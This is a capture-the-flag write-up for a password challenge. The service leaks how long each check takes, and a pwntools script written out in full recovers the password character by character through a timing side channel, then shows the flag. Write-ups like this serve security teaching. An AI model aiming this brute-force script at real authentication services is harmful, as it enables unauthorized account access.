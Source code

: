 
# Password 

## Description
```
Can you break my super secret secure password? :D

To access the challenge use this in the terminal

nc ctf.copsiitbhu.co.in 21337
```

## Writeup

- after visiting the link we get password input promate

```bash
PASSWORD: hey
Wrong Password!
TIME: 1.8835067749023438e-05
```

- we can see that it's giving time as output which means that this server is vulnerable to time based attack . which nicely explaind in [this](https://ropesec.com/articles/timing-attacks/#:~:text=In%20a%20timing%20attack%2C%20the,the%20algorithms%20of%20the%20application.)

- to exploit it i wirte a script given below 

```py
from pwn import *

passwd = ""
alphabates = "abcdefghijklmnopqrstuvwxyz"

while True:
    max_timing = 0
    for char in alphabates:
        p = remote("ctf.copsiitbhu.co.in", 21337)
        _ = p.recv()
        to_send = f"{passwd}{char}"
        p.sendline(to_send.encode())
        res = p.recv().decode("utf-8")
        # print(res)

        if "Wrong Password!" not in res:
            print(passwd)
        res = res.split("TIME")
        timing = float(res[1].strip().replace(": ",""))

        if timing > max_timing:
            max_timing = timing
            reqi = char

        p.close()

    if "Wrong Password!" not in res:
        print(passwd)
    passwd += reqi
    print(passwd)

```

- this script will give password = mysuperrrsecreeetpasswooordhehehe

- after submiting password we get 

```
PASSWORD: mysuperrrsecreeetpasswooordhehehe
TIME: 0.03557252883911133
You broke my super secret password:\(
FLAG: COPS{time_based_attack_ftw}

```
## Flag 

## COPS{time_based_attack_ftw}
